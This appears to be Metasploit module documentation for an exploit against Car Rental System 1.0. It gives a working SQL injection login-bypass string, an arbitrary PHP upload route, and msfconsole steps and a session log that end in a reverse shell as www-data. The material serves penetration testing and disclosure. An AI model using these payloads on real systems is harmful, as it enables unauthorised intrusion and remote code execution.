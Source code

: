 ## Vulnerable Application

Car Rental System 1.0 is a Web Application to rent cars. It was write using PHP and MySQL.

Vendor Homepage: https://www.sourcecodester.com/php/14544/car-rental-management-system-using-phpmysqli-source-code.html
Software Link: https://www.sourcecodester.com/download-code?nid=14544&title=Car+Rental+Management+System+using+PHP%2FMySQLi+with+Source+Code

to install, extract all files in a web directory, edit admin/db_connect.php, and create database following database/car_rental_db.sql

Opening the web page, we can login in /admin area using " ' OR 1=1 limit 1# " as username, and a random word as password; Giving "limit 1" we will select the first user: ADMIN

This software is also vulnerable for Arbitrary File Upload.

Vulnerable page: http://IP/Car_CMSHOME/admin/index.php?page=manage_car. Editing a Car record, you may upload a php file.

## Verification Steps

Confirm that functionality works:
1. Start `msfconsole`
2. `use exploit/multi/php/car_rental_system`
3. Set the `RHOST`.
4. Set the `TARGETURI`.
7. Set `LHOST` and `LPORT`
8. Run the exploit: `run`
9. Confirm you have now a reverse shell

**TARGETURI**
The path to the Car Rental System HOME directory.


## Scenarios

### Debian 10 running Apache2 and php7.3

```
msf6 exploit(multi/php/car_rental_system) > use exploit/multi/php/car_rental_system
[*] Using configured payload php/reverse_php
msf6 exploit(multi/php/car_rental_system) > set RHOSTS 192.168.0.130
RHOSTS => 192.168.0.130
msf6 exploit(multi/php/car_rental_system) > set TARGETURI /car_rental/
TARGETURI => /car_rental/
msf6 exploit(multi/php/car_rental_system) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/php/car_rental_system) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.0.114:4444 
[*] Attempting Login
msf6 exploit(multi/php/car_rental_system) > [*] Cookie: PHPSESSID=uokk0ufj0ujbphrte03upmsej7;
[*] Creating new car
[*] Last Images inserted id=6
[*] index.php?page=manage_car&id=6
[*] assets/uploads/cars_img/1605195300_sh_ell.php
[*] Command shell session 1 opened (192.168.0.114:4444 -> 192.168.0.130:56876) at 2020-11-12 16:34:58 +0100
msf6 exploit(multi/php/car_rental_system) > 
msf6 exploit(multi/php/car_rental_system) > sessions 

Active sessions
===============

  Id  Name  Type           Information  Connection
  --  ----  ----           -----------  ----------
  1         shell php/php               192.168.0.114:4444 -> 192.168.0.130:56876 (192.168.0.130)

msf6 exploit(multi/php/car_rental_system) > sessions 1
[*] Starting interaction with 1...

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

uname -a
Linux 6784e50e1781 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64 GNU/Linux

```

